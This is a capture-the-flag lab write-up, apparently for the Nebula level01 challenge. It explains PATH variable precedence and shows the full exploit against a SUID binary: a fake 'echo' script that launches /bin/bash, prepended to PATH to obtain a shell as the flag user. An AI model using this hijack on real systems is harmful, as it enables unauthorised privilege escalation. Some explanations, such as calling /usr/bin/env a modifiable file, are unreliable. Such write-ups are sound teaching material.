

In operating systems, its often used a environment variable called **PATH**, this variable ensures that the programs have their path loaded in the memory so that you don't have to type the full path to run it.

For example we have many programs in the folder `/usr/bin/`, these programs include echo, find, ls, and many more.
So to run all of the binaries without having to type the absolute path every time, we just add the *folder* to the **PATH**: `PATH=/usr/bin/`, and if we have more programs on others folder, we can add it there too, using `:` as a way to separate them, `PATH=/usr/bin:/usr/jdk`.

However, the catch is: PATH will always be read from the left to right, creating priorities to the first listed folders, in practice this can be also described:

Lets say we have 2 calculators binaries, but in different folder, but both folders are in the PATH:
`/usr/bin/calc` and `/bin/calc`
and `$PATH=/usr/bin:/bin`

Calculator will be executed from the folder `/usr/bin` because it was set *before* the `/bin`.

So if we take a closer look at the C program given by the exercise:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

We can see that `system("/usr/bin/env echo and now what?")` checks the `/usr/bin/env` for the binary `echo`, and that file will be set *by who's running* the program, so we are user *level01* and our env file can be modified, therefore enabling us to exploit that program to run other binaries.

But that alone isn't enough to escalate privilege, but as we learned in the previous exercise **LEVEL00**, the SUID sets who runs the program, so the snippet:

```c
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);
```

shows us that the program will run as the SUID set in the binary.

and if we run `stat /home/flag01/flag01` it will show in its description:

```sh
File: flag01
Access: (4750/-rwsr-x --- )
Uid: (998/flag01) Gid: ( 1002/ leve101)
```

giving the insight that the file will be run as flag01.

So we will exploit the env by creating a exploit called `echo`:

```sh
echo "Shell exploited"
/bin/bash
```

and saving it in our folder `/home/level01/echo` and using `chmod +x /home/level01/echo` to enable execution for all users
then abuse of the env by exporting it to PATH, and putting it before the current PATH:

```sh
export PATH="/home/level01:$PATH"
```

then we run the program

```sh
/home/flag01/flag01
```

and get access:



then we just run `getflag` and go next.
